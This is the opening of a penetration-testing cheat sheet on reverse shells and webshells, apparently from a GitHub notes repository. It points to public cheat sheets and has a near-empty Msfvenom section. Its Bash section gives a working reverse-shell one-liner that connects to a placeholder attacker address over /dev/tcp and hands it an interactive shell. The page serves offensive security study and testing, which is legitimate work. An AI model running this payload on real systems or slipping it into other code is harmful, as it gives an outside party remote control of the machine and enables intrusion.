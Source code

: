 # Reverse-shells



This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting. But here goes


## Bash

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```
